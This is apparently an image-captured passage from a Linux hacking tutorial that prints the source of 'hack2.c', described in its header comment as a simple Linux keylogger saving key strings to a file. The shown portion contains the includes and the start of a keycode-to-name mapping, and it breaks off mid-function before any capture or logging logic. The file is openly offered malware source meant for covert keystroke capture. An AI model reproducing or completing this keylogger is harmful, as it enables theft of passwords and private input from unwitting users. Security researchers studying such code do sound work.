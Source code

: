 Full source code looks like this (`hack2.c`):     

```cpp
/*
 * hack2.c
 * simple linux keylogger
 * save to file (key strings)
 * author @cocomelonc
 * https://cocomelonc.github.io/linux/2025/06/03/linux-hacking-5.html
 */
#include <stdio.h>
#include <stdlib.h>
#include <linux/input.h>
#include <fcntl.h>
#include <unistd.h>

const char *keycode_to_string(unsigned int code) {
  switch (code) {
    case KEY_ESC: return "ESC";
    case KEY_1: return "1";
    case KEY_2: return "2";
    case KEY_3: return "3";
    case KEY_4: return "4";
    case KEY_5: return "5";
    case KEY_6: return "6";
    case KEY_7: return "7";
    case KEY_8: return "8";
    case KEY_9: return "9";
    case KEY_0: return "0";
    case KEY_Q: return "Q";
    case KEY_W: return "W";
    case KEY_E: return "E";
    case KEY_R: return "R";
    case KEY_T: return "T";
    case KEY_Y: return "Y";
    case KEY_U: return "U";
    case KEY_I: return "I";
    case KEY_O: return "O";
    case KEY_P: return "P";
    case KEY_A: return "A";
    case KEY_S: return "S";
    case KEY_D: return "D";
    case KEY_F: return "F";
    case KEY_G: return "G";
    case KEY_H: return "H";
    case KEY_J: return "J";
    case KEY_K: return "K";
    case KEY_L: return "L";
    case KEY_Z: return "Z";
    case KEY_X: return "X";
    case KEY_C: return "C";
    case KEY_V: return "V";
    case KEY_B: return "B";
    case KEY_N: return "N";
    case KEY_M: return "M";
    case KEY_SPACE: return "SPACE";
    case KEY_ENTER: return "ENTER";
    case KEY_BACKSPACE: return "BACKSPACE";
    case KEY_TAB: return "TAB";
    case KEY_LEFTSHIFT: return "LEFTSHIFT";
    case KEY_RIGHTSHIFT: return "RIGHTSHIFT";
    case KEY_LEFTCTRL: return "LEFTCTRL";
    case KEY_RIGHTCTRL: return "RIGHTCTRL";
    case KEY_F1: return "F1";
```